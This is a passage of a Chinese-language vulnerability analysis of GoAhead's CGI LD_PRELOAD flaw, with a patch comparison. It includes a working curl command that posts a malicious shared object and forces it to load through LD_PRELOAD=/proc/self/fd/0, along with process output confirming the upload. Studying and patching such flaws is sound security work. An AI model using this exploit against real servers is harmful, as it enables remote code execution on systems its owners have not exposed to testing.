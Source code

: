 运行goahead：

```bash
$ curl -X POST --data-binary @valid.so http://172.16.217.185:80/cgi-bin/cgitest\?LD_PRELOAD\=/proc/self/fd/0
```

查看cgi进程：

```bash
$ ps -ax | grep cgitest
 38522 pts/6    S+     0:00 /home/raycp/work/iot/goahead/goahead/test/cgi-bin/cgitest
```

查看进程对应的`/proc/self/fd/0`文件：

```bash
$ sudo ls -l /proc/38522/fd/0
[sudo] password for raycp:
lrwx------ 1 root root 64 Aug  6 19:39 /proc/38522/fd/0 -> /tmp/cgi-0.tmp
```

查看tmp文件，为我们上传的so文件：

```bash
$ file /tmp/cgi-0.tmp
/tmp/cgi-0.tmp: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, BuildID[sha1]=f6c44284417e28152bd71f64f55ab551e56abfaa, not stripped
```

所以利用的方法为post恶意的so文件过去，并利用`LD_PRELOAD`加载`/proc/self/fd/0`实现so文件的加载。

## 补丁比对

查看goahead是如何patch该漏洞的，先切换到3.6.5：

```bash
git checkout tags/v3.6.5
```

补丁与漏洞关键代码如下：

```c

// pathed
envpsize = 64;
    envp = walloc(envpsize * sizeof(char*));
    for (n = 0, s = hashFirst(wp->vars); s != NULL; s = hashNext(wp->vars, s)) {
        if (s->content.valid && s->content.type == string) {
            if (smatch(s->name.value.string, "REMOTE_HOST") ||
                smatch(s->name.value.string, "HTTP_AUTHORIZATION") ||
                smatch(s->name.value.string, "IFS") ||
                smatch(s->name.value.string, "CDPATH") ||
                smatch(s->name.value.string, "PATH") ||
                sstarts(s->name.value.string, "LD_")) {
                continue;
            }
            if (s->arg != 0 && *ME_GOAHEAD_CGI_VAR_PREFIX != '\0') {
                envp[n++] = sfmt("%s%s=%s", ME_GOAHEAD_CGI_VAR_PREFIX, s->name.value.string,
                    s->content.value.string);
            } else {
                envp[n++] = sfmt("%s=%s", s->name.value.string, s->content.value.string);
            }
            trace(0, "Env[%d] %s", n, envp[n-1]);
            if (n >= envpsize) {
                envpsize *= 2;
                envp = wrealloc(envp, envpsize * sizeof(char *));
            }
        }
    }
```